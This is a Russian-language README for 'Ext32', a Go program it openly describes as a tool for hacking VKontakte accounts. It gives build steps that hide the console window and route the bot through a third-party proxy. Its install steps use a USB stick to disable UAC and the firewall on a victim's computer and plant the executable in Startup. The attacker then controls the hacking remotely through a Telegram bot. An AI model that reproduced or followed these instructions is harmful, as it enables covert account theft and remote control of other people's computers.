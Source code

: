 # Ext32
Ext32 - программа для взлома ВКонтакте. 

Программа написана на языке программирования Go, и использует библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api).
Поэтому перед сборкой выполните 
```
go get github.com/go-telegram-bot-api/telegram-bot-api
```
<h1>Внимание!</h1>
Так как Telegram заблокирован в России, для работы программы вам необходимо внести некоторые изменения в код.

Скачав библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api), откройте файл bot.go и измените следующий участок кода:
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```
на
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	proxyUrl, _ := url.Parse("http://kvmde58-13429.fornex.org:8008")

	bot.Client = &http.Client{
		Transport: &http.Transport{
			Proxy: http.ProxyURL(proxyUrl),
		},
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```

<h1>Инструкция к сборке</h1>

* Откройте файл <b>Ext32.go</b> и в следующем блоке кода укажите собственнные данные:

```
const (
	botToken   string = "YOUR_BOT_TOKEN"
	userChatId int64  = YOUR_CHAT_ID_FROM_TELEGRAM
)
```

* Скомпилировать программу нужно со следующим флагом

```
go build Ext32.go -ldflags -H=windowsgui
```
<h1>Инструкция к запуску</h1>

* Вставьте флешку
* Запустите от имени администратора файл **Отключить UAC.bat**
* Запустите от имени администратора файл **Отключить фаервол.bat**
* Запуститие файл **Copy.bat**, который скопирует exe-шник в Автозагрузку
* Если возможно, перезагрузите компьютер, иначе придеться ждать пока пользователь сам перезагрузит компьюетр, ведь программа начнет работать лишь после первой перезагрузки!
* Все! Отточите навык, и вы сможете проделать весь процесс менее чем за 10 секунд
* После того, как программа запуститься сама после перезагрузки, вам в Telegram-боте придет уведомление об этом, и вы сможете управлять процессом взлома через своего бота. Удачи!

